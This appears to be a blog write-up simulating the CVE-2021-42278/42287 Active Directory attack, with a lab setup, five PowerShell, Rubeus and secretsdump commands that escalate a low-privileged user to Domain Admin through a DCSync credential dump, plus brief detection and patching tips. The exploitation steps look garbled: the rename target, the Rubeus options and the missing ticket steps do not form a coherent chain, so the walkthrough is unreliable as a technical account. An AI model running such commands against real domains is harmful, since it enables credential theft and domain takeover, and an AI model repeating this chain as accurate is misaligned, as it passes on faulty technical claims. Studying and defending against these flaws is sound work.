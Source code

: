 ```yaml
---
title: Exploiting CVE-2021-42278 & CVE-2021-42287 – From User to Domain Admin
published: 2025-04-19
updated: 2025-04-19
description: 'Simulating a real-world privilege escalation attack using CVE-2021-42278 and CVE-2021-42287 in Active Directory to gain Domain Admin access from a low-privileged user'
image: 'CVE-2021-42278.webp'
tags: [CVEs]
category: 'Active Directory Attacks'
draft: false 
lang: 'ar-eng'
---
```


## Table of Contents

1. [Introduction](#cve-2021-42278--cve-2021-42287-from-user-to-domain-admin-simulating)
2. [Why is this Attack Important?](#why-is-this-attack-important)
3. [Vulnerability Overview](#vulnerability-overview)  
   - [CVE-2021-42278 – SAMAccountName Spoofing](#cve-2021-42278-samaccountname-spoofing)  
   - [CVE-2021-42287 – Kerberos Privilege Escalation](#cve-2021-42287-kerberos-privilege-escalation)
4. [Lab Setup (Tools + Env)](#lab-setup-tools--env)
5. [Step-by-Step Exploitation](#step-by-step-exploitation)  
   - [Step 1: Login as a regular user](#step-1-login-as-a-regular-user)  
   - [Step 2: Rename a Computer Object](#step-2-rename-a-computer-object-to-a-user-like-name)  
   - [Step 3: Modify sAMAccountName](#step-3-modify-samaccountname-to-match-user-name)  
   - [Step 4: Request a TGT](#step-4-request-a-tgt-for-the-spoofed-computer)  
   - [Step 5: Impersonate the Domain Controller](#step-5-impersonate-the-domain-controller--perform-dcsync)  
   - [Step 6: Domain Admin Access](#step-6-profit--domain-admin-access)
6. [Detection & Blue Team View](#detection--blue-team-view)
7. [Patch & Mitigation Tips](#patch--mitigation-tips)
8. [References + Final Thoughts](#references--final-thoughts)

---

## CVE-2021-42278 && CVE-2021-42287: From User to Domain Admin - Simulating

In the world of **advanced cyber attacks** on Active Directory, several vulnerabilities continue to affect systems even after updates. One such critical vulnerability duo discovered in late 2021 were **CVE-2021-42278** and **CVE-2021-42287**, allowing escalation from **low-privileged user to Domain Admin** using **simple tools**.

### Why is this attack important?

This attack is unique for several reasons:

- **No misconfigurations required**: Relies solely on Active Directory vulnerabilities
- **Simplicity of exploitation**: Easy escalation to **Domain Admin** with minimal effort

In this post, we'll **simulate** this attack in a lab environment using these CVEs on unpatched systems.

---

### Vulnerability Overview

#### 📌 CVE-2021-42278: SAMAccountName Spoofing
Allows spoofing computer account names to appear as user accounts. Attackers can create **fake computer objects** with user-like `sAMAccountName` values.

#### 📌 CVE-2021-42287: Kerberos Privilege Escalation
Enables privilege escalation through **Kerberos TGT manipulation**, allowing Domain Controller impersonation and **DCSync attacks**.

---

### Lab Setup (Tools + Env)

| **Component**       | **Description**                                  |
|---------------------|--------------------------------------------------|
| **OS**              | Windows Server 2019 (unpatched, pre-Nov 2021)    |
| **Tools**           | Mimikatz, Rubeus, Impacket, KrbRelayUp           |
| **User Account**    | Low-privileged user (`amr.user@corp.local`)      |
| **Domain Controller** | Unpatched (pre-Nov 2021 patches)                |

---

### Step-by-Step Exploitation

#### Step 1: Login as a regular user
Assume compromised credentials for low-privileged user `amr.user@corp.local`

#### Step 2: Rename Computer Object to User-Like Name
```powershell
Rename-ADObject "CN=WIN10-CLIENT,CN=Computers,DC=corp,DC=local" -NewName "amruser"
```

#### Step 3: Modify sAMAccountName
```powershell
Set-ADComputer -Identity "amruser" -SamAccountName "amruser"
```

#### Step 4: Request TGT for Spoofed Computer
```bash
rubeus tgtdeleg /user:amruser$ /rc4:<ntlm_hash> /domain:corp.local
```

#### Step 5: Impersonate Domain Controller & DCSync
```bash
secretsdump.py -k -no-pass CORP/amruser$@dc.corp.local
```

#### Step 6: Profit – Domain Admin Access
Use dumped credentials to access privileged accounts.

---

### Detection & Blue Team View

**Key Detection Points:**
- 🔍 **Event ID 4741**: Computer account creation
- 🔍 **Event ID 4781**: SAMAccountName changes
- 🔍 **Kerberos TGT Anomalies**
- 🔍 **Unusual DC impersonation attempts**

---

### Patch & Mitigation Tips

1. ✅ Apply November 2021 Security Updates
2. ✅ Restrict Computer Object Modifications
3. ✅ Monitor SAMAccountName Changes
4. ✅ Implement Least Privilege Access

---

### References + Final Thoughts

**Official Resources:**
- [CVE-2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278)
- [CVE-2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287)

**Tool References:**
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [Impacket](https://github.com/fortra/impacket)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)

This attack chain demonstrates how **inherent Active Directory vulnerabilities** can enable full domain compromise without misconfigurations. Regular patching and strict monitoring are essential for AD security.